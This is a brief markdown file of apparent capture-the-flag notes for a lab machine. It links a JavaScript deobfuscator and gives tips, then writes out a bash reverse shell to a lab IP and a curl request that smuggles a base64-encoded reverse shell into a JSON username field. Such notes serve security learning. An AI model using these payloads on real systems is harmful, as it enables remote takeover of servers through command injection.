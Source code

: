 # CTF_notes.md

## Deobfuscator
[de4js](https://lelinhtinh.github.io/de4js/)
## Notes
- it's important to decode the obfuscated code too!
- sometimes curl might work better than a browser
- when doing a reverse shell you might need to encode the command to not have it messed up for example if you want to execute a command sent as a web request:
```bash -i >& /dev/tcp/10.10.14.4/1234 0>&1```
you encode it and send it as
```curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'```